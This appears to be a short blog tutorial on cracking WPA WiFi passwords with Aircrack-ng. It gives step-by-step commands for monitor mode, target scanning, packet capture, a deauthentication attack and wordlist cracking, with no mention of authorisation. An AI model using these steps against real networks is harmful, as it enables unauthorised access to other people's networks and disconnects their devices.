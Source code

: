 ```yaml
---
title: "Cracking WIFI Password with Aircrack-ng"
date: 2024-07-06T22:06:14+0800
tags: ["Aircrack-ng", "high-school-article-rewrite", "Cyber-Security", "WiFi"]
---
```


# rewrite

I've revisited and cleaned up this guide from my high school days to make it more understandable.

## What is Aircrack-ng?

[Aircrack-ng](https://www.kali.org/tools/aircrack-ng/) is a toolset used to assess WiFi network security. It includes:

- **Monitoring**: Capturing WiFi data packets for analysis.
- **Attacking**: Performing actions like packet injection and creating fake access points.
- **Testing**: Checking WiFi card capabilities.
- **Cracking**: Breaking WEP and WPA PSK (WPA 1 and 2) encryption.

## Hardware Requirements

To use Aircrack-ng, you need a wireless card or USB adapter. Without one, you can't perform WiFi cracking operations.

## Checking Card Status

Ensure your wireless card is recognized:

```shell
root@kali:~# iwconfig
```
![iwconfig](./iwconfig.gif)

## Starting Monitor Mode

Enable monitor mode on your wireless interface (`wlan0` or similar):

```shell
root@kali:~# airmon-ng start wlan0
```
![airmon-ng start wlan0](./airmon-ng%20start%20wlan0.png)

## Finding Target WiFi Network

Identify the WiFi network (ESSID, BSSID, and channel number):

```shell
root@kali:~# airodump-ng wlan0mon
```
![airodump-ng wlan0mon](./airodump-ng%20wlan0mon.gif)

## Creating Capture File

Capture data from the target network:

```shell
airodump-ng -d [BSSID] -c[channel] -w [capture filename] wlan0mon
```
![Creating Cap file](./capfile.gif)
![Creating Cap file-2](./capfile-2.gif)
![file](./file.gif)

## Performing Deauthentication Attack

Disconnect a device from the network to capture the necessary handshake or PMKID:

```shell
aireplay-ng --deauth 0 -a [BSSID] wlan0mon
```
![Device deauth](./handshake.gif)

## Cracking the Password

Once you've captured the handshake or PMKID, use Aircrack-ng to crack the WiFi password:

```shell
aircrack-ng [capture filename] -w [password list file]
```

![Cracking password](./cracking.png)

## Closing Monitor Mode

Disable monitor mode after you're done:

```shell
root@kali:~# airmon-ng stop wlan0mon
```
![Stop Monitor Mode](./stop.png)
